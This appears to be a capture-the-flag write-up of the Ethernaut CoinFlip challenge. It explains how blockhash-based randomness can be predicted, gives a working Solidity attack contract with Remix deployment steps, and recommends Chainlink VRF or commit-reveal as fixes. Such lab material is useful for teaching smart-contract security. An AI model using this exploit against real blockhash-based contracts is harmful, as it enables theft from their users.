

# Introduction
The ``CoinFlip`` contract is a challenge that requires players to correctly guess the outcome of a coin flip multiple times consecutively. However, a critical vulnerability related to predictable randomness enables an attacker to consistently win the coin flip.

## Target
Predict the result of the `flip` function and achieve consecutive wins indefinitely.

## Context
The `CoinFlip` contract has the following key components:

- A `consecutiveWins` variable (type `uint256`) to track the number of successful guesses.
- A `lastHash` variable used to store the previous block’s hash.
- The `FACTOR` constant helps scale the block hash to a range of 0 or 1.
- The `flip` function calculates the outcome using the block hash, making it predictable by external calls.

## Security Vulnerability
The contract relies on `blockhash(block.number - 1)`, which is deterministic and can be accessed off-chain.

An attacker can call the function in the same block and calculate the result before making a guess.

## Exploit Steps

1. **Create the Attack Contract:**
    - Copy and paste the following code into a new file in Remix with an arbitrary name:

    ```solidity
    pragma solidity ^0.8.0;

    contract Attack {
         CoinFlip private coinFlipContract;
         uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

         constructor(address _coinFlipAddress) {
              coinFlipContract = CoinFlip(_coinFlipAddress);
         }

         function attack() public {
              uint256 blockValue = uint256(blockhash(block.number - 1));
              uint256 coinFlip = blockValue / FACTOR;
              bool side = coinFlip == 1;

              require(coinFlipContract.flip(side), "Flip failed!");
         }
    }
    ```

2. **Deploy the Attack Contract:**
    - Remember that: Before you deploy the contract in Remix you need to change the environment to Injected Provider - (Metamask). 
    
    
    - Deploy the `Attack` contract in Remix, providing the address of the `CoinFlip` contract (instance address) as the constructor argument.

3. **Verify the CoinFlip Contract:**
    - In the Ethernaut console, manually test the `flip` function with a guess:
      ```javascript
      await contract.flip(true); // or false
      ```
    - Check the `consecutiveWins` value to confirm the result:
      ```javascript
      await contract.consecutiveWins();
      ```

4. **Execute the Attack:**
    - Use the deployed `Attack` contract to repeatedly call the `attack` function until the `consecutiveWins` counter reaches 10.
    - Once the counter hits 10, the challenge is successfully completed.

By following these steps, you can exploit the predictable randomness in the `CoinFlip` contract and achieve the required consecutive wins.

## Conclusion

The `CoinFlip` contract demonstrates the dangers of relying on predictable on-chain values for randomness. By leveraging the block hash, an attacker can accurately predict the outcome of the coin flip and achieve consecutive wins indefinitely. This exploit highlights the importance of using secure randomness mechanisms, such as `Chainlink VRF` or `commit-reveal` schemes, to ensure fairness and unpredictability in smart contracts. Properly securing random values is essential for protecting contracts from malicious actors in blockchain environments.
